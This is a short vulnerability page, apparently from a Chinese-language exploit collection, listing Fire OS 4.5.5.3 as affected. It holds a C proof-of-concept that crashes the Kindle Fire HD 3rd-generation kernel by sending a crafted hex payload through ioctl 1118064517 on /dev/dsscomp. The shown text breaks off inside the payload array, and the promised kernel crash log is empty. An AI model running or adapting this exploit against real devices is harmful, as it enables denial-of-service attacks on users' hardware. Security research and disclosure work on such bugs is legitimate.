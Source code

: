 <languages  />

漏洞影响
--------

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
     * Related buggy struct name is dsscomp_setup_dispc_data.
     * This Poc should run with permission to do ioctl on /dev/dsscomp.
     *
     * The fowllwing is kmsg of kernel crash infomation:
     *
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/dsscomp";
    static command = 1118064517;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = {
        0xffffffff,
        0x00000003,
        0x5d200040,
        0x79900008,
        0x8f5928bd,
        0x78b02422,
        0x00000000,
        0xffffffff,
        0xf4c50400,
        0x007fffff,
        0x8499f562,
        0xffff0400,
        0x001b131d,
        0x60818210,
        0x00000007,
        0xffffffff,
        0x00000000,
        0x9da9041c,
        0xcd980400,
        0x001f03f4,
        0x00000007,
        0x2a34003f,
        0x7c80d8f3,
        0x63102627,
        0xc73643a8,
        0xa28f0665,
        0x00000000,
        0x689e57b4,
        0x01ff0008,
        0x5e7324b1,
        0xae3b003f,
        0x0b174d86,
        0x00000400,
        0x21ffff37,
        0xceb367a4,